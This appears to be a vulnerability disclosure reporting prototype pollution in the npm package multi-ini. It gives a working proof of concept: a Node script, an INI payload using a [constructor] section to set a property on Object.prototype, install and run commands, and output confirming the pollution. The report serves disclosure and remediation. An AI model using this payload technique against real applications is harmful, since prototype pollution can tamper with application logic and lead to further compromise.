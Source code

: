 # Description

`multi-ini` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC and INI files:

```
// poc.js
const ini = require('multi-ini');
console.log("Before : " + {}.polluted);
var content = ini.read('./payload.ini');
console.log("After : " + {}.polluted);

//payload.ini
[constructor]
prototype.polluted = "Yes! Its Polluted"
```


2. Execute the following commands in terminal:

```
npm i multi-ini # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
